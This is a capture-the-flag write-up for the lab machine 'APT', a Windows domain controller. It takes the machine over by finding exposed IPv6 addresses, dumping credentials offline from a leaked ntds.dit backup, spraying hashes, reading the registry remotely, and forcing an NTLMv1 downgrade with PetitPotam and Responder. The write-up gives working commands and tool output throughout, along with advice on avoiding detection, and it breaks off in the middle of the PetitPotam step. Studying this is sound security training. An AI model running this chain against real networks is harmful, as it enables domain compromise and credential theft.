




[Banner](img/APT_BANNER.png)

# APT-WriteUp

In this Windows Active Directory machine rated **Insane**, we'll compromise a Domain Controller starting from what appears to be a minimal attack surface, only two TCP ports open. The key insight is that the firewall only filters IPv4, leaving IPv6 wide open. From there, we exploit a leaked NTDS backup, perform a hash spray, abuse Remote Registry access, and ultimately weaponize an NTLMv1 downgrade to achieve full domain compromise. You will learn how to:

- Discover hidden IPv6 addresses via DCOM/OXID Resolver (MS-DCOM)
- Enumerate SMB shares anonymously and extract sensitive backups
- Crack encrypted ZIP archives with John the Ripper
- Dump domain credentials from `ntds.dit` + `SYSTEM` hive offline
- Validate domain users via Kerberos pre-authentication (Kerbrute)
- Perform NTLM hash spraying against a single valid user
- Read Windows Registry remotely via `reg.py` (Impacket) without a shell
- Capture NTLMv1 hashes using PetitPotam + Responder
- Crack NTLMv1 using rainbow tables (ntlmv1.com)
- Perform DCSync as a machine account to get the Administrator hash

🧰 Tools used: `nmap`, `IOXIDResolver.py`, `smbclient.py`, `zip2john`, `john`, `secretsdump.py`, `kerbrute`, `reg.py`, `evil-winrm`, `PetitPotam.py`, `responder`, `hashcat`.

Let's get started.

---

## Port Scanning

We started with a full TCP SYN scan across all ports on the target IPv4 address.

```bash
sudo nmap --open -Pn -p- -sS -n -vvv 10.129.96.60

PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 127
135/tcp open  msrpc   syn-ack ttl 127
```

Only two ports open, HTTP and MSRPC. This is suspicious for a Windows machine and strongly suggests a firewall is in play.

### Service Enumeration

```bash
nmap -sVC -p80,135 10.129.96.60

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 10.0
|_http-title: Gigantic Hosting | Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The web server is Microsoft IIS 10.0, hosting a site called "Gigantic Hosting". Wappalyzer confirms it's running on Windows Server, nothing immediately exploitable on the web side.



We also ran a UDP scan to check for SNMP:

```bash
sudo nmap -sU -p 161 10.129.96.60 -v

PORT    STATE           SERVICE
161/udp open|filtered   snmp
```

SNMP is filtered. Dead end for now.

---

## Discovering IPv6 via DCOM / IOXIDResolver

With only ports 80 and 135 open on IPv4, we know a firewall is blocking standard AD ports (445, 389, 88, etc.). However, **Windows firewalls often forget to filter IPv6**.

Port 135 always exposes the **IOXIDResolver** interface (`99fcfec4-5260-101b-bbcb-00aa0021347a`), which is part of the DCOM core. Unlike regular RPC endpoints, IOXIDResolver doesn't register itself in the Endpoint Mapper, it's always available directly on port 135.

#### Why doesn't it appear in rpcdump?

The `rpcdump.py` tool queries the **Endpoint Mapper (EPM)**, which acts like a directory of registered services. IOXIDResolver is part of the DCOM kernel and never registers there it's always reachable directly.

#### How the attack works

The `ServerAlive2()` method of IOXIDResolver is completely unauthenticated and responds with all network interfaces (bindings) of the target, including IPv6 addresses you didn't know existed.

```bash
python3 IOXIDResolver.py -t 10.129.96.60

[*] Retrieving network interface of 10.129.96.60
Address: apt
Address: 10.129.96.60
Address: dead:beef::b885:d62a:d679:573f
Address: dead:beef::d84d:4773:b57f:bc13
```

Two IPv6 addresses revealed. We add them to `/etc/hosts`:

```bash
sudo sh -c 'echo "dead:beef::b885:d62a:d679:573f APT6.htb" >> /etc/hosts'
sudo sh -c 'echo "dead:beef::d84d:4773:b57f:bc13 APT6-2.htb" >> /etc/hosts'
```

---

## Full Port Scan via IPv6

Now we scan the target over IPv6 using the `-6` flag:

```bash
sudo nmap --open -Pn -p- -sS -n -vvv dead:beef::b885:d62a:d679:573f -6

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 63
80/tcp    open  http             syn-ack ttl 63
88/tcp    open  kerberos-sec     syn-ack ttl 63
135/tcp   open  msrpc            syn-ack ttl 63
389/tcp   open  ldap             syn-ack ttl 63
445/tcp   open  microsoft-ds     syn-ack ttl 63
464/tcp   open  kpasswd5         syn-ack ttl 63
593/tcp   open  http-rpc-epmap   syn-ack ttl 63
636/tcp   open  ldapssl          syn-ack ttl 63
3268/tcp  open  globalcatLDAP    syn-ack ttl 63
3269/tcp  open  globalcatLDAPssl syn-ack ttl 63
5985/tcp  open  wsman            syn-ack ttl 63
9389/tcp  open  adws             syn-ack ttl 63
47001/tcp open  winrm            syn-ack ttl 63
49664/tcp open  unknown          syn-ack ttl 63
49665/tcp open  unknown          syn-ack ttl 63
49666/tcp open  unknown          syn-ack ttl 63
49667/tcp open  unknown          syn-ack ttl 63
49669/tcp open  unknown          syn-ack ttl 63
49670/tcp open  unknown          syn-ack ttl 63
49673/tcp open  unknown          syn-ack ttl 63
49685/tcp open  unknown          syn-ack ttl 63
52410/tcp open  unknown          syn-ack ttl 63
```

All the expected Domain Controller ports are now visible. The IPv4 firewall was blocking everything, but IPv6 was completely unfiltered.

### Service Enumeration over IPv6

```bash
nmap -sVC -p53,80,88,135,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49685,52410 dead:beef::b885:d62a:d679:573f -6

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Gigantic Hosting | Home
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-03-31 02:55:25Z)
135/tcp   open  msrpc        Microsoft Windows RPC
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
|_ssl-date: 2026-03-31T02:56:39+00:00; +34s from scanner time.
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-31T02:56:39+00:00; +35s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
|_ssl-date: 2026-03-31T02:56:39+00:00; +34s from scanner time.
3269/tcp  open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
|_ssl-date: 2026-03-31T02:56:39+00:00; +35s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc        Microsoft Windows RPC
49673/tcp open  msrpc        Microsoft Windows RPC
49685/tcp open  msrpc        Microsoft Windows RPC
52410/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: -7m59s, deviation: 22m40s, median: 33s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: apt
|   NetBIOS computer name: APT\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: apt.htb.local
|_  System time: 2026-03-31T03:56:24+01:00
| smb2-time:
|   date: 2026-03-31T02:56:27
|_  start_date: 2026-03-31T01:28:18

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.58 seconds
```

We're dealing with a **Windows Server 2016** Domain Controller for the domain `htb.local`. The hostname is `APT`.

---

## SMB Enumeration — Anonymous Share Access

```bash
nxc smb htb.local -u '' -p '' --shares
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] htb.local\:
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Enumerated shares
SMB         dead:beef::b885:d62a:d679:573f 445    APT              Share           Permissions     Remark
SMB         dead:beef::b885:d62a:d679:573f 445    APT              -----           -----------     ------
SMB         dead:beef::b885:d62a:d679:573f 445    APT              backup          READ
SMB         dead:beef::b885:d62a:d679:573f 445    APT              IPC$                            Remote IPC
SMB         dead:beef::b885:d62a:d679:573f 445    APT              NETLOGON                        Logon server share
SMB         dead:beef::b885:d62a:d679:573f 445    APT              SYSVOL                          Logon server share```
```

Anonymous access is allowed and we have **READ** permission on a `backup` share. Let's download what's inside.

```bash
smbclient.py 'htb.local/':''@dead:beef::b885:d62a:d679:573f

# use backup
# ls
  backup.zip   10650961  Thu Sep 24 04:31:03 2020

# get backup.zip
```

---

## Cracking the Backup ZIP

The ZIP is password-protected. We extract its hash with `zip2john` and crack it with John the Ripper:

```bash
zip2john backup.zip > backup_hash

cat backup_hash -p
backup.zip:$pkzip2$3*1*1*0*8*24*9beb*9ac6*0f135e8d5f0<REDACTED_HASH>
```

After clean the hash we cracking the passwd.
```
john backup_hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>   (backup.zip)
1g 0:00:00:00 DONE (2026-03-31 00:15) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s 123456..dumbo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we extract it:

```bash
unzip backup.zip
Archive:  backup.zip
   creating: Active Directory/
[backup.zip] Active Directory/ntds.dit password:
  inflating: Active Directory/ntds.dit
  inflating: Active Directory/ntds.jfm
  inflating: registry/SECURITY
  inflating: registry/SYSTEM

ls Active\ Directory/
  ntds.dit   ntds.jfm

ls registry/
  SECURITY   SYSTEM
```

We have the three files needed to dump the entire domain: `ntds.dit`, `SYSTEM`, and `SECURITY`.

---

## Offline NTDS Dump with secretsdump.py

With `ntds.dit` + `SYSTEM` + `SECURITY`, we can extract all domain credentials offline without touching the live DC:

```bash
secretsdump.py -ntds "Active Directory/ntds.dit" -system registry/SYSTEM -security registry/SECURITY LOCAL

Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x936ce5da88593206567f650411e1d16b

[*] Dumping cached domain logon information (domain/username:hash)

[*] Dumping LSA Secrets

[*] MACHINE.ACCMACHINE.ACC:plain_password_hex:34005b<REDACTED_HASH>
MACHINE.ACC: aad3b4<REDACTED_HASH>:b30027<REDACTED_HASH>
[*] DefaultPassword
(Unknown User):<REDACTED>
[*] DPAPI_SYSTEM
dpapi_machinekey:0x3e0d78<REDACTED_HASH>
dpapi_userkey:0xdcde3f<REDACTED_HASH>
[*] NLKM:734f34<REDACTED_HASH>

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 1733ad<REDACTED_HASH>
[*] Reading and decrypting hashes from Active Directory/ntds.dit

Administrator:500:aad3b4<REDACTED_HASH>:2b576a<REDACTED_HASH>:::
Guest:501:aad3b4<REDACTED_HASH>:31d6cf<REDACTED_HASH>:::
DefaultAccount:503:aad3b4<REDACTED_HASH>:31d6cf<REDACTED_HASH>:::
APT:1000:aad3b4<REDACTED_HASH>:b30027<REDACTED_HASH>:::

krbtgt:502:aad3b4<REDACTED_HASH>:727919<REDACTED_HASH>:::

jeb.sloan:3200:aad3b4<REDACTED_HASH>:9ea25a<REDACTED_HASH>:::
<1999 users total>
```

We found a cleartext password `<REDACTED>` in the LSA secrets, and 1999 domain user hashes. However, this is a **backup from September 2020** — passwords may have changed since then. We need to figure out which users are still valid.

---

## User Validation via Kerbrute

We try a password spray with `<REDACTED>` first,no luck. Since port 88 (Kerberos) is open, we use `kerbrute` to validate which users from the dump still exist in the domain:

```bash
./kerbrute_linux_amd64 userenum -d htb.local --dc apt6.htb users.txt

[+] VALID USERNAME: Administrator@htb.local
[+] VALID USERNAME: henry.vinson@htb.local
Done! Tested 1999 usernames (2 valid) in 1097.224 seconds
```

Only two valid users: `Administrator` and `henry.vinson`. The rest of the accounts from the 2020 backup no longer exist.

---

## NTLM Hash Spray Against henry.vinson

We find henry.vinson's hash from the dump:

```
henry.vinson:3647:aad3b435<REDACTED_HASH>:::
```

We test it directly, but it fails:

```bash
nxc smb apt6.htb -u 'henry.vinson' -H '<REDACTED_HASH>'
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         dead:beef::b885:d62a:d679:573f 445    APT              [-] htb.local\henry.vinson:<REDACTED_HASH> STATUS_LOGON_FAILURE
```

The hash from 2020 is no longer valid. But here's the key insight: maybe henry.vinson is now using a password that matches another user's hash from the old dump. We extract all 1999 NTLM hashes and spray each one against henry.vinson via Kerberos.
**Technical Note:** We performed the hash spray via Kerberos Pre-Authentication instead of traditional SMB for two reasons: speed and stealth. Kerberos is significantly faster and often generates less noise in event logs (Event ID 4768 for Kerberos vs Event ID 4625 for SMB). Furthermore, it allows us to validate credentials by simply requesting a TGT, without needing to establish a full connection to the file system (SMB shares).

Wisp me on LinkedIn if you'd like to check out the script or discuss the logic!

```bash
awk -F ":" '/^[a-zA-Z0-9._-]+:[0-9]+:/ {print $4}' secretsdump.txt > hashes_ntlm.txt

python3 spray_henry.py hashes_ntlm.txt

[*] Probando 1999 hashes contra henry.vinson...
[+] ¡ÉXITO! Hash válido encontrado: <REDACTED_HASH>
```

Henry is reusing the NTLM hash of another user from the old dump. We now have valid credentials for him.

---

## Remote Registry Access with reg.py

Henry's hash authenticates against Kerberos, but SMB and WinRM both return Access Denied, he doesn't have interactive login rights. However, there's another avenue: **Remote Registry via RPC**.

Windows administrators often forget to restrict Remote Registry access in GPOs, leaving it open as a way to read persistent configuration. If Henry has ever logged into this machine, his registry hive will be mounted under `HKU`.

```bash
reg.py -hashes :<REDACTED_HASH> htb.local/henry.vinson@apt6.htb query -keyName "HKU"
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
HKU
HKU\.DEFAULT
HKU\S-1-5-19
HKU\S-1-5-20
HKU\S-1-5-21-2993095098-2100462451-206186470-1105
HKU\S-1-5-21-2993095098-2100462451-206186470-1105_Classes
HKU\S-1-5-18
```

Henry's hive is mounted (`S-1-5-21-...-1105`). We enumerate the Software keys and find something unusual:

```bash
reg.py -hashes :<REDACTED_HASH> htb.local/henry.vinson@apt6.htb query -keyName "HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software"
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\GiganticHostingManagementSystem   ← interesting!
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Microsoft
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Policies
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\RegisteredApplications
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Sysinternals
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\VMware, Inc.
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Wow6432Node
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Classes
```

We found a custom application key. Let's read it:

```bash
reg.py -hashes :<REDACTED_HASH> htb.local/henry.vinson@apt6.htb query -keyName "HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\GiganticHostingManagementSystem"
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\GiganticHostingManagementSystem
	UserName	REG_SZ	 henry.vinson_adm
	PassWord	REG_SZ	 <REDACTED>
```

The application stored credentials in plaintext in the registry. We have `henry.vinson_adm`'s password.

> **Pentest tip:** Whenever you have credentials but no shell, look for persistence and configuration storage: SMB shares, LDAP, and the Windows Registry. Third-party management software like this routinely stores credentials in `HKCU\Software\<AppName>`.

---

## Shell as henry.vinson_adm and user Flag

```bash
nxc winrm apt6.htb -u 'henry.vinson_adm' -p '<REDACTED>'
WINRM       dead:beef::b885:d62a:d679:573f 5985   APT              [*] Windows 10 / Server 2016 Build 14393 (name:APT) (domain:htb.local)
WINRM       dead:beef::b885:d62a:d679:573f 5985   APT              [+] htb.local\henry.vinson_adm:<REDACTED> (Pwn3d!)
evil-winrm -i apt6.htb -u 'henry.vinson_adm' -p '<REDACTED>'


*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> type ..\Desktop\user.txt
<USER_FLAG>
```

---

## Privilege Escalation — NTLMv1 Downgrade Attack

### Finding the Attack Path via PowerShell History

Once I gained a shell as henry.vinson_adm, I started with basic enumeration to understand my environment.
```powershell
Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== =============================================
htb\henry.vinson_adm S-1-5-21-2993095098-2100462451-206186470-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
henry.vinson             henry.vinson_adm         krbtgt
```
Before jumping into automated tools like BloodHound, I perform a manual "visual dump" of the user's file structure. Often, administrators leave sensitive information or configuration traces in non standard locations.
```powershell
Evil-WinRM* PS C:\Users\henry.vinson_adm> cmd.exe /c dir /S /A
 Volume in drive C is System
 Volume Serial Number is BF99-DE3E

 Directory of C:\Users\henry.vinson_adm

09/24/2020  08:40 AM    <DIR>          .
09/24/2020  08:40 AM    <DIR>          ..
09/24/2020  08:40 AM    <DIR>          AppData
09/24/2020  08:40 AM    <JUNCTION>     Application Data [C:\Users\henry.vinson_adm\AppData\Roaming]
09/24/2020  09:17 AM    <DIR>          Contacts
09/24/2020  08:40 AM    <JUNCTION>     Cookies [C:\Users\henry.vinson_adm\AppData\Local\Microsoft\Windows\INetCookies]
10/23/2020  11:02 AM    <DIR>          Desktop
10/23/2020  10:39 AM    <DIR>          Documents
09/24/2020  09:17 AM    <DIR>          Downloads
09/24/2020  09:17 AM    <DIR>          Favorites
09/24/2020  09:17 AM    <DIR>          Links
09/24/2020  08:40 AM    <JUNCTION>     Local Settings [C:\Users\henry.vinson_adm\AppData\Local]
09/24/2020  09:17 AM    <DIR>          Music
09/24/2020  08:40 AM    <JUNCTION>     My Documents [C:\Users\henry.vinson_adm\Documents]
09/24/2020  08:40 AM    <JUNCTION>     NetHood [C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\Network Shortcuts]
03/31/2026  02:58 AM           262,144 NTUSER.DAT

<SNIP>

 Directory of C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline

11/10/2020  11:58 AM    <DIR>          .
11/10/2020  11:58 AM    <DIR>          ..
11/10/2020  11:58 AM               458 ConsoleHost_history.txt
               1 File(s)            458 bytes

<SNIP>
```
While digging through the AppData folder, I found a ConsoleHost_history.txt in the PSReadline directory. This folder stores the history of PowerShell commands executed by the user, which is a common place to find leaked credentials or sensitive configurations.

```powershell
Evil-WinRM* PS C:\Users\henry.vinson_adm> type C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```

Someone ran this as Administrator. The command sets `lmcompatibilitylevel = 2`, which **enables NTLMv1** authentication. We verify it's still active:

```powershell
Evil-WinRM* PS C:\Users\henry.vinson_adm> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name lmcompatibilitylevel


lmcompatibilitylevel : 2
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control
PSChildName          : Lsa
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```

#### Why does this matter?

NTLMv1 is architecturally broken. It relies on DES with a 56-bit key, meaning any captured NTLMv1 hash can be cracked in seconds via Rainbow Tables (like ntlmv1.com), regardless of how long or complex the password is. In contrast, NTLMv2 implements proper salted hashing, making it significantly harder to crack and impossible to decrypt using pre-computed tables.
**The Downgrade Logic:** Setting `lmcompatibilitylevel = 2` tells Windows to send NTLMv1 responses but still accept NTLMv2 if requested by the server. By using Responder, we act as the "server" in this exchange and specifically request NTLMv1. This forces the client to downgrade its authentication to the weakest level, allowing us to capture a hash that is susceptible to rainbow table attacks.

With NTLMv1 enabled, the attack chain is:
1. **PetitPotam** — Coerce the Domain Controller to authenticate to our machine via MS-EFSRPC.
2. **Responder** — Capture the DC's NTLMv1 authentication response.
3. **Rainbow tables** — Submit the hash to ntlmv1.com for instant decryption, recovering the machine account password or NT hash.

### Step 1 — Configure Responder with a Fixed Challenge

For the rainbow table attack to work, we need to capture the hash with a **known, fixed challenge**. By default Responder generates a random one per request, which would make rainbow table lookup impossible. We set it to `1122334455667788` in the config:



### Step 2 — Force Authentication with PetitPotam

PetitPotam abuses the MS-EFSRPC protocol (`EfsRpcOpenFileRaw`) to make a target Windows machine authenticate against an attacker-controlled server — without needing admin rights in many cases:

```bash
python3 PetitPotam.py -u 'henry.vinson_adm' -p '<REDACTED>' -d 'htb.local' <ATTACKER_IP> apt6.htb
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

                                                                                 
              ___            _        _      _        ___            _           
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
